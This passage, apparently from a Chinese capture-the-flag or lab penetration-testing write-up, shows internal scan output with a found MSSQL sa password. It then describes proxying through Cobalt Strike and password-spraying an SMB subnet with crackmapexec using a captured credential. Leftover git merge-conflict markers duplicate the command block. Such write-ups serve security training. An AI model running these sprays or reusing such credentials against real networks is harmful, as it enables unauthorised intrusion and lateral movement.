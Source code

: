 ```bash
   [->]172.22.8.18
   [->]2001:0:348b:fb58:3c9d:2e4a:d89d:b62b
NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] 172.22.8.46          XIAORANG\WIN2016           Windows Server 2016 Datacenter 14393
[*] WebTitle:http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

之后利用 CS 做一个代理，我这里用的 socks4，socks5 需要身份验证，用的不太习惯

由于我们前面获取了一台主机的账号密码，但是不知道是哪一台机子，利用 cme 进行密码喷射

<<<<<<< HEAD
```plain
proxychains -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```

[![](assets/1710898702-b3c4a8025616be418fec6713a5664c9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095448-d6ee50d6-e1a5-1.png)
=======
```bash
proxychains -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```

[![](assets/1710465355-b3c4a8025616be418fec6713a5664c9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095448-d6ee50d6-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
